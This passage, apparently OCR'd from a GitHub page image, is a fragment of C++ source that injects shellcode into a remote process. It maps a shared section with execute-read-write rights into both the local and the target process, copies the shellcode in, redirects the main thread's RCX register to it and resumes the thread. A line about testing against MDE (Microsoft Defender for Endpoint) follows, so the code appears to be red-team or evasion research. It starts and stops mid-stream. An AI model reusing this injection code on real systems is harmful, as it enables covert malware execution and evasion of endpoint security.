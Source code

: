 ```
        hSection,
        GetCurrentProcess(),
        &hLocalAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode into local memory
    RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

    // map section into memory of remote process
    PVOID hRemoteAddress = NULL;

    status = ntMapViewOfSection(
        hSection,
        process_info->hProcess,
        &hRemoteAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // get context of main thread
    LPCONTEXT pContext = new CONTEXT();
    pContext->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(process_info->hThread, pContext);

    // update rcx context
    pContext->Rcx = (DWORD64)hRemoteAddress;
    SetThreadContext(process_info->hThread, pContext);

    // resume thread
    ResumeThread(process_info->hThread);

    // unmap memory from local process
    status = ntUnmapViewOfSection(
        GetCurrentProcess(),
        hLocalAddress);
}
```

Testing agaist MDE we find the following alerts:


[+]: Shellcode located at c7160